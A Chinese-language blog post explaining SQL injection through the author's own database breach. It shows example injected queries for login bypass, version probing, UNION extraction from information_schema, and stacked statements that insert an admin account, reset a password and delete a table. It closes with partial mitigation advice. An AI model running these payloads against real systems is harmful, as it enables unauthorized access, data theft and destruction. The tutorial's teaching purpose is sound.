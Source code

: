```yaml
---
title: 技术场景之解决sql注入
cover:  /img/technology-sense/sql_inject_title.png
subtitle: 技术场景之解决sql注入
categories: "技术场景"
tags: "技术场景"
author:
nick: 袁苏东
link: https://github.com/yuansudong
typora-root-url: images
---
```


以前的无知,造就了一场场线上事故,现在回想起来,不忍想象.而这篇文章,主要聊聊SQL注入.曾经的自己,因为没有对接口参数进行规范化处理,导致了数据库被恶意客户端把数据库爬得一干二净.当时非常气恼,现在回想起来,我还要谢谢那个人,谢谢你没有把数据库的数据全给我清空.



### 1.什么是SQL注入



SQL注入,指服务器接口对用户输入数据的合法性没有判断或过滤不严,导致恶意客户端可以通过在参数中加入SQL语句,从而欺骗数据库,达到非正常授权的操作.



### 2.注入类型

 

### 01.数字型注入



当输入的参数为整型时，如ID、年龄、时间戳等，如果存在注入漏洞，则可以认为是数字型注入.



数字型注入最多出现在ASP、PHP等弱类型语言中，弱类型语言会自动推导变量类型.



比如，参数id=10，PHP会自动推导变量id的数据类型为int类型，那么id=8 and 1=1，则会推导为string类型，这是弱类型语言的特性.



而对于Go,Java,C#这类强类型语言，如果试图把一个字符串转换为int类型，则会抛出异常，无法继续执行。所以，强类型的语言很少存在数字型注入漏洞 .



### 02.字符型注入



当输入参数为字符串时，称为字符型。数字型与字符型注入最大的区别在于：数字型不需要单引号闭合，而字符串类型一般要使用单引号来闭合.



通过在字符型参数里,进行主动闭合.便可以让数据库忽略后续的查询条件.



比如,登录场景.用户需要填写用户名和密码,通过服务器进行验证,倘若密码以及用户名,服务器便会方法令牌,允许用户登录.



以前的一个同事大致是这么写的.



```
SELECT {{需要的数据}} FROM Account WHERE Account.UserName = @Username AND Account.Password = md5(@Password);
```



对于上面的SQL,只谈UserName不谈Password.



恶意客户端,可以通过在参数UserName中,植入SQL语句,达到不输入密码,只要用户名在数据库中存在,就可以访问系统的目的.



比如,恶意客户端在接口参数的UserName中,填入的是 admin" -- ,而服务器接口也没有对字符串参数进行处理.



直接将值放入SQL语句中,会构建出如下的SQL语句.



```sql
SELECT {{需要的数据}} FROM Account WHERE Account.UserName = "admin" --" AND Account.Password = md5(@Password);
```



从上面的颜色就可以看出,通过此等输入方式,后面的SQL语句就被注释掉了.



倘若根据这位同事的代码逻辑,这个登录接口就成了不需要密码登录的接口.



sql注入能干什么用途?



这一部分,我们以下列语句来事实SQL语句的注入,看一看SQL注入,到底能干些什么事情



```sql
SELECT * FROM Account WHERE Account.UserName = @UserName AND Password = @Password
```



### 01.通过SQL注入,获取数据库的版本



```
SELECT*FROM AccountWHERE Account.UserName = "user01"       AND mid(version(),1,3) = 8.0 -- " AND Password = @Password
```



倘若能够正常返回,或者返回期望的错误码,则证明该数据库的版本是8.0



### 02.获取数据表中的数据库信息



```sql
SELECT
	{{你需要的数据}}
FROM AccountWHERE Account.UserName = "user01" AND 0 = 1 UNION SELECT         information_schema.`COLUMNS`.TABLE_SCHEMA,        information_schema.`COLUMNS`.TABLE_NAME,        information_schema.`COLUMNS`.COLUMN_NAME,        information_schema.`COLUMNS`.IS_NULLABLE,        information_schema.`COLUMNS`.DATA_TYPE,        information_schema.`COLUMNS`.COLUMN_COMMENT,        information_schema.`COLUMNS`.COLUMN_KEY        FROM information_schema.`COLUMNS` WHERE information_schema.`COLUMNS`
```



### 03.获取数据库名称和当前用户名



```sql
SELECT
	{{需要的数据}}
FROM AccountWHERE Account.UserName = "user01" UNION SELECT 1,2,version(),user(),database() -- " AND Password = @Password
```



对于我的实验环境来说,返回的数据就是如下



```text
UserName  Password  Id      DeletedAt           CreatedAt1          2        8.0.21  root@192.168.42.1   SQL
```



### 04.新增数据



获取到数据库的信息后,我们就可以通过注入SQL语句,达到新增数据的目的.比如,下面的SQL语句.



```sql
SELECT * FROM Account
WHERE Account.UserName = "user01";INSERT INTO `SQL`.`Account`( `UserName`, `Password`, `CreatedAt`, `UpdatedAt`, `DeletedAt`) VALUES ('admin', 'md5(sasa)', '2021-01-03 17:03:51', '2021-01-03 17:03:54', '2021-01-03 17:03:57'); -- " AND Password = @Password
```



通过上述的SQL注入,就可以在数据库为SQL,数据表为Account的表中插入一行数据.



05.修改数据



```sql
SELECT * FROM Account
WHERE Account.UserName = "user01";UPDATE `SQL`.`Account`SET  Password = 'md5(new_password)'WHERE `SQL`.`Account`.UserName = "user01" -- " AND Password = @Password
```



通过上述的SQL注入,便可以达到修改其他用户密码的目的.恶意客户端修改密码之后,就可以登录,窃取相应的个人用户信息或者执行一些恶意操作.



### 06.删除数据



```sql
SELECT * FROM Account
WHERE Account.UserName = "user01";

DELETE FROM `SQL`.`Account` -- " AND Password = @Password
```



通过注入上述的SQL语句,可以达到在执行查询的同时, 清楚SQL.Account表.



### 07.如何避免注入



A.为每个账号非配一定的数据库权限.

B.对于强类型语言,接口中的字符串参数需要转义处理.比如golang中的strconv.Quote.

C.检查参数中是否包含着特殊字符.比如,;,#,--,/**/,',"等信息.

D.通过sqlmap工具进行盲注测试.